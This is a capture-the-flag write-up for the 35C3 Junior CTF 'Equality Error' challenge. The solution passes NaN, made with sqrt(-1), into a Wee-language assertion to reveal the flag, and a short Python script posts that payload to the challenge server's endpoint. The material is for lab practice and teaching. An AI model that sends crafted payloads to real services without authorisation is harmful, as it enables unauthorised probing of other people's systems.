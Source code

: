 # 35C3 Junior CTF – Equality Error

* **Category:** Misc  
* **Points:** 88 (variable)

## Challenge

> At assert_equals(num: number), we've added an assert to make sure our VM
> properly handles equality. With only a few basic types, it's impossible to
> mess this one up, so the assertion has never been triggered. In case you do
> by accident, please report the output.  
>  
> http://35.207.189.79/  
>  
> Difficulty estimate: Medium  
>  
> ===============================================  
>  
> Good coders should learn one new language every year.  
>  
> InfoSec folks are even used to learn one new language for every new problem
> they face (YMMV).  
>  
> If you have not picked up a new challenge in 2018, you're in for a treat.  
>  
> We took the new and upcoming Wee programming language from paperbots.io. Big
> shout-out to Mario Zechner (@badlogicgames) at this point.  
>  
> Some cool Projects can be created in Wee, like: this, this and that.  
>  
> Since we already know Java, though, we ported the server (Server.java and
> Paperbots.java) to Python (WIP) and constantly add awesome functionality.
> Get the new open-sourced server at /pyserver/server.py.  
>  
> Anything unrelated to the new server is left unchanged from commit
> dd059961cbc2b551f81afce6a6177fcf61133292 at badlogics paperbot github
> (mirrored up to this commit here).  
>  
> We even added new features to this better server, like server-side Wee
> evaluation!  
>  
> To make server-side Wee the language of the future, we already implemented
> awesome runtime functions. To make sure our VM is 100% safe and secure,
> there are also assertion functions in server-side Wee that you don't have to
> be concerned about.

## Solution

The *Wee* interpreter source code can be found here:
`http://35.207.189.79/weelang/weeterpreter.ts`.

The endpoint that can be used to run *Wee* code is the following.

```  
http://35.207.189.79/wee/run  
```

The assertion that must be exploited is the following.

```Typescript  
externals.addFunction(  
  "assert_equals",  
  [{name: "num", type: compiler.NumberType}], compiler.StringType,  
  false,  
  (num: number) => num === num  
      ? "EQUALITY WORKS" : flags.EQUALITY_ERROR  
)  
```

This is the behavior of `NaN`. To generate it, the square root of a negative
number can be calculated (i.e. the "constant" `NaN` is non defined in *Wee*
language).

The payload is the following.

```  
alert(assert_equals(sqrt(-1)))  
```

The following Python script can be used to send the payload.

```Python  
import requests  
import json

url = "http://35.207.189.79/wee/run"  
data_structure = """{{ "code": {} }}"""  
data_content = """alert(assert_equals(sqrt(-1)))"""

data_content_to_send = json.dumps(data_content)  
data_to_send = data_structure.format(data_content_to_send)  
print "[*] Payload: '{}'.".format(data_to_send)  
response = requests.post(url, data=data_to_send)  
print "[*] Response: '{}'.".format(response.text)  
```

The flag is the following.

```  
35C3_NANNAN_NANNAN_NANNAN_NANNAN_BATM4N  
```

Original writeup (https://github.com/m3ssap0/CTF-
Writeups/blob/master/35C3%20Junior%20CTF/Equality%20Error/README.md).